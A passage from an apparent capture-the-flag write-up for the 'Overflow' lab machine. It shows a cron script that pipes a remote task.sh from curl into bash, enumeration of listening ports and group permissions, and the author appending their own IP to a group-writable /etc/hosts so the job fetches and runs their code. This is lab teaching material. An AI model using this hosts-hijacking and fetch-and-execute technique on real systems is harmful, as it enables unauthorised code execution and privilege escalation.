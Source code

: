 

    #!/bin/bash

    #make sure its running every minute.


    bash < <(curl -s http://taskmanage.overflow.htb/task.sh)



There's also a note that it runs every minute.

#### Identify hosts

My first thought was to look for this new vhost in
`/etc/apache2/sites-enabled`, but it wasn't there:



    developer@overflow:/etc/apache2/sites-enabled$ grep taskmanage *



There's also no other servers that could be hosting it on another port:



    developer@overflow:~$ ss -ntlp
    State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
    LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
    LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
    LISTEN   0         100                 0.0.0.0:25               0.0.0.0:*       
    LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
    LISTEN   0         128                       *:80                     *:*       
    LISTEN   0         128                    [::]:22                  [::]:*       
    LISTEN   0         100                    [::]:25                  [::]:*  



I did note that developer is part of the network group:



    developer@overflow:~$ id       
    uid=1001(developer) gid=1001(developer) groups=1001(developer),1002(network)



`/etc/hosts` is in the network group:



    developer@overflow:~$ find / -group network -ls 2>/dev/null
       262150      4 -rwxrw-r--   1 root     network       201 Sep 30 06:00 /etc/hosts



### RCE

I'll set my IP to taskmanage.overflow.htb in `/etc/hosts`:



    developer@overflow:~$ echo -e "10.10.14.6\ttaskmanage.overflow.htb"
    10.10.14.6      taskmanage.overflow.htb
    developer@overflow:~$ echo -e "10.10.14.6\ttaskmanage.overflow.htb" >> /etc/hosts
